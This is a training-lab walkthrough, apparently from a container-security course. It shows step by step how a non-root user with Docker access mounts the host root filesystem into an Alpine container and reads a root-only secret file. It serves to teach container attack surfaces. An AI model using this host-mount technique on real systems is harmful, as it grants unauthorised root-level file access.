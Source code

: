 ## Authentication Attacks against Host

###### A `non-root user` with access to docker can gain access to root filesystem of the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `Labs/3.0.0-Container-Attacks/3.1.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.1.0
    ```

##### Step 3:

* Run `sudo su` to become root user.

    ```commandline
      root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# sudo su
      root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
##### Step 4:

* Create a `secret.txt` file inside `/root/` directory.

    ```commandline
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# touch /root/secret.txt
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
##### Step 5:

* Open `secret.txt` and write some secret in it.

    **Note:** 
    1. `esc+i` to insert character into the file,
    2. `esc+:+wq` to save and exit from the file.

    ```commandline
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# vim /root/secret.txt
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
    
        
##### Step 6: 
  
* Run `sudo su user` login as a normal user.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# sudo su user
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$
    ```

##### Step 7: 
  
* Run `cat /root/secret.txt` read the content of secret.txt file.

    ```commandline
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$ cat /root/secret.txt
    cat: /root/secret.txt: Permission denied
    ```

##### Step 8:

* Run `exit` to exit as a normal user

    ```commandline
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$ exit
    exit
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# 
    ```

##### Step 9: 
* Run `docker run -ti --rm -v /:/hostFS/ alpine` as `docker-user`(non-root user)

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# docker run -ti -v /:/hostFS/ alpine
    / #     
    ```
    
##### Step 10:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    / # cd /hostFS/root/
    /hostFS/root # 
    ```
    
##### Step 11:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    /hostFS/root # ls
    secret.txt
    ``` 
    
##### Step 12:

* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret

``` 

**Note** : Now the docker-user has the privilege to view the root user data.


##### Step 13:

* Run `exit` to exit from the container.

    ```commandline
    /hostFS/root # exit
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
